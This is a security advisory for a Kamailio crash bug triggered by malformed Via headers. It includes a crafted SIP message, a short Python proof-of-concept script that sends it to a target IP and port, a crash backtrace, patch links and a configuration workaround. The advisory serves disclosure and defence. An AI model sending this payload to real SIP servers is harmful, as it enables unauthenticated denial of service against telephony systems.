 ## Security vulnerability in Kamailio core related to Via header processing, denial of service possible.

- Author: Henning Westerholt <hw at skalatan.de>
- Fixed versions: Kamailio v5.1.4 and v5.0.7
- References: CVE-2018-XXXX
<!-- - Kamailio Security Advisory: https://www.kamailio.org/w/2018/03/TODO/ -->
- Tested vulnerable versions: 5.1.3, 5.0.6, 4.0, git master
- Timeline:
    - Report date: 2018-06-03
    - Kamailio patch: 2018-06-03
    - Kamailio release with patch: 2018-06-05
    - Security advisory: 2018-09-04

### Description

There exists a security vulnerability in the Kamailio core related to Via header processing. A specially crafted SIP message with several invalid `Via` headers causes a segmentation fault and crashes Kamailio. The reason is missing input validation in the `crcitt_string_array` core function for calculating a CRC hash for To tags.  An additional error is present in the `check_via_address` core function, this function also misses input validation.

### Impact

Abuse of this vulnerability leads to denial of service in Kamailio. Further research may show that exploitation leads to remote code execution. This vulnerability is rather old and will probably also apply to older versions of Kamailio and maybe even OpenSER.

### How to reproduce the issue

The following SIP message with several invalid `Via` header can be used to reproduce the vulnerability:


```
INVITE sip:0 SIP/2.0
To: 0
Via: SIP/2.0/UDP :]
```

You can use this python script to reproduce the crash:

```
#!/usr/bin/env python
import socket
import sys

for _ in range(2):
    sock = socket.socket(socket.AF_INET, socket.SOCK_DGRAM)
    sock.connect((sys.argv[1], int(sys.argv[2])))

    msg = "INVITE sip:0 SIP/2.0\n" \
        "To: 0\n" \
        "Via: SIP/2.0/UDP :]\n" \
        "\r\n"
    sock.sendall(msg)
```

Run using:

```
python crash.py <ip> <port>
```

The expected result is a crash in Kamailio.

Notes: 

- authentication is not required
- crash happens in the first module that tries to construct a SIP reply caused by the bogus message
- SIP extension does not need to exist
- Message can be sent over TCP or UDP

### GDB backtrace result

An example for an backtrace caused by this crash in GDB:

```
Program received signal SIGSEGV, Segmentation fault.
0x00000000004e93ee in crcitt_string_array (dst=0x7ffff6373961 <sl_tag_buf+33> "", src=0x7fffffffaa20, size=2) at core/crc.c:239
239                             ccitt = UPDCIT( *c, ccitt );
(gdb) bt
#0  0x00000000004e93ee in crcitt_string_array (dst=0x7ffff6373961 <sl_tag_buf+33> "", src=0x7fffffffaa20, size=2) at core/crc.c:239
#1  0x00007ffff6162309 in calc_crc_suffix (msg=0x7ffff72c37c8, tag_suffix=0x7ffff6373961 <sl_tag_buf+33> "") at ../../core/tags.h:55
#2  0x00007ffff6162f5c in sl_reply_helper (msg=0x7ffff72c37c8, code=500, reason=0x7ffff63739e0 <err_buf> "I'm terribly sorry, server error occurred (1/SL)", tag=0x0) at sl_funcs.c:166
#3  0x00007ffff61644c3 in sl_send_reply (msg=0x7ffff72c37c8, code=500, reason=0x7ffff63739e0 <err_buf> "I'm terribly sorry, server error occurred (1/SL)") at sl_funcs.c:304
#4  0x00007ffff6164ca7 in sl_reply_error (msg=0x7ffff72c37c8) at sl_funcs.c:362
#5  0x00007ffff6168245 in w_sl_reply_error (msg=0x7ffff72c37c8, str=0x0, str2=0x0) at sl.c:233
#6  0x000000000043966a in do_action (h=0x7fffffffd120, a=0x7ffff7290970, msg=0x7ffff72c37c8) at core/action.c:1067
#7  0x0000000000445e1d in run_actions (h=0x7fffffffd120, a=0x7ffff7290970, msg=0x7ffff72c37c8) at core/action.c:1565
#8  0x00000000004395d9 in do_action (h=0x7fffffffd120, a=0x7ffff72919b8, msg=0x7ffff72c37c8) at core/action.c:1058
#9  0x0000000000445e1d in run_actions (h=0x7fffffffd120, a=0x7ffff728bef0, msg=0x7ffff72c37c8) at core/action.c:1565
#10 0x00000000004360c5 in do_action (h=0x7fffffffd120, a=0x7ffff72ac508, msg=0x7ffff72c37c8) at core/action.c:691
#11 0x0000000000445e1d in run_actions (h=0x7fffffffd120, a=0x7ffff72ac098, msg=0x7ffff72c37c8) at core/action.c:1565
#12 0x00000000004360c5 in do_action (h=0x7fffffffd120, a=0x7ffff7287ba8, msg=0x7ffff72c37c8) at core/action.c:691
#13 0x0000000000445e1d in run_actions (h=0x7fffffffd120, a=0x7ffff7282420, msg=0x7ffff72c37c8) at core/action.c:1565
#14 0x00000000004465c2 in run_top_route (a=0x7ffff7282420, msg=0x7ffff72c37c8, c=0x0) at core/action.c:1654
#15 0x000000000058908d in receive_msg (buf=0xa56a60 <buf> "INVITE sip:0 SIP/2.0\nTo: 0\nViaa: SIP/2.0/UDP\nV\nVia:\nVia: SIP/2.0/UDP :]", len=71, rcv_info=0x7fffffffd740) at core/receive.c:331
#16 0x000000000046ca74 in udp_rcv_loop () at core/udp_server.c:554
#17 0x00000000004253d1 in main_loop () at main.c:1432
#18 0x000000000042d631 in main (argc=17, argv=0x7fffffffdc68) at main.c:2650
```

This security issue was discovered through extensive SIP message fuzzing with [afl](http://lcamtuf.coredump.cx/afl/?target=_blank) and an internal toolset.

### Solutions and recommendations

Apply the correct patch [git master](https://github.com/kamailio/kamailio/commit/ad68e402ece8089f133c10de6ce319f9e28c0692?target=_blank), [version 5.1](https://github.com/kamailio/kamailio/commit/d67b2f9874ca23bd69f18df71b8f53b1b6151f6d?target=_blank), or [version 5.0](https://github.com/kamailio/kamailio/commit/f07dabffef98c7088cdbc2bd695a4ae7a241b159?target=_blank) from github or make use of a release that includes that patch (e.g. 5.1.4 or 5.0.7). For older Kamailio version and in case you need more time for an update you can add the following logic on top of to your `request_route` block in your kamailio configuration file. This will drop this malicious  message and prevent its processing. If you use IPv6 in your Kamailio server configuration you need to test this workaround intensively.

```
if($(hdr(Via))=~":]") {
    xlog("invalid Via header found - dropping message\n");
    drop;
}
```

### About Henning Westerholt

[Henning Westerholt](https://skalatan.de/about) is a core developer of Kamailio since 2007. He provides consulting services for Kamailio and VoIP services in the performance, reliability and security areas.

## Disclaimer

The information in the advisory is believed to be accurate at the time of publishing based on currently available information. Use of the information constitutes acceptance for use in an AS IS condition. There are no warranties with regard to this information. Neither the author nor the publisher accepts any liability for any direct, indirect, or consequential loss or damage arising from use of, or reliance on, this information.
